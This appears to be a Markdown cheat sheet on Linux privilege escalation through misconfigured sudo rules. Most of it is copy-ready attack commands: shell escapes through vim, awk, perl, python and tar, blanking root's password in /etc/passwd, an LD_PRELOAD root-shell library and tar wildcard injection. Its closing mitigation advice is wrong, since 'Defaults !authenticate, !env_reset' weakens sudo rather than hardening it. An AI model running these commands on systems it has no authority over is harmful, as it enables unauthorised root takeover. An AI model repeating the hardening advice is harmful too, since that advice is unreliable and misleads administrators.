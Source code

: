 **Elevating Privilege through `sudo`**

Privilege escalation through `sudo` misconfigurations occurs when a low-privileged user can execute commands with root privileges because Administrator has done incorrect `sudoers` settings and given unintended privilege to a normal user.

**To check what commands you can run with `sudo`, use:**
```
sudo -l
```
If the output shows commands that can be run as root (`(ALL) NOPASSWD:`) without a password, it may be exploitable.

**If `sudo -l` shows:**
```
(root) NOPASSWD: /bin/su
```
**You can escalate privileges with:**
```
sudo su
```

**If `sudo -l` allows:**
```
(root) NOPASSWD: /bin/bash
```
**You can get a root shell:**
```
sudo -i
```
**or**
```
sudo /bin/bash
```

**If `sudo` allows executing an unrestricted binary like `vim`, `awk`, or `python`, you can escalate privileges:**
```
sudo vim -c ':!sh'
sudo awk 'BEGIN {system("/bin/sh")}'
sudo less /etc/passwd
!/bin/sh
sudo perl -e 'exec "/bin/sh";'
sudo python3 -c 'import os; os.system("/bin/sh")'
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
More exploitable binaries can be found at **[GTFOBins](https://gtfobins.github.io/)**.

**If `sudo` allows running `nano`, `vi`, or `vim` on system files:**
```
(root) NOPASSWD: /usr/bin/nano /etc/passwd
```
**You can edit `/etc/passwd` to remove the root password:**
```
sudo nano /etc/passwd
```
**Modify the root entry:**
```
root:x:0:0:root:/root:/bin/bash
```
**to:**
```
root::0:0:root:/root:/bin/bash
```
**Save and exit, then switch to root without a password:**
```
su root
```

**If `sudo -l` allows executing a script:**
```
(root) NOPASSWD: /path/to/script.sh
```
**Modify the script:**
```
echo "/bin/bash" >> /path/to/script.sh
sudo /path/to/script.sh
```
**If you're unable to modify the script directly, you can review it to identify any imported modules or packages that might be customizable.**
For Example, if it is a python script then look for any imported package,
Once you identify the modules in use, assess whether it's possible to make changes to them. 
If you're able to modify any of the imported packages, you can introduce adjustments by adding simple lines of code within those packages, 
depending on your access level.
If it's possible to make changes, you could add a simple line of code which will edit the permissions of the '/etc/passwd' file.
```
os.system('chmod 777 /etc/passwd')
```

**If `sudo` allows running commands but does not clear environment variables:**
```
echo 'int main() { setgid(0); setuid(0); system("/bin/sh"); }' > /tmp/root.c
gcc -fPIC -shared -o /tmp/root.so /tmp/root.c -nostartfiles
sudo LD_PRELOAD=/tmp/root.so /bin/bash
```

**If `sudo` allows commands like:**
```
(root) NOPASSWD: /bin/tar * 
```
**You can execute arbitrary commands:**
```
echo "id" > /tmp/exploit.sh
chmod +x /tmp/exploit.sh
echo "sh 0<&2 1>&2" > /tmp/--checkpoint-action=exec=sh
echo "sh 0<&2 1>&2" > /tmp/--checkpoint=1
sudo tar -cf /dev/null /tmp/*
```

**To mitigate risks:
Restrict `sudoers` settings:**
  ```
  visudo
  ```
**Ensure:**
  ```
  Defaults !authenticate, !env_reset, secure_path
  ```
**Remove unnecessary `sudo` permissions:**
  ```
  sudo visudo
  ```
 **Remove lines like:**
  ```
  ALL=(ALL) NOPASSWD: ALL
  ```
And follow least privilege principles to prevent exploitation.

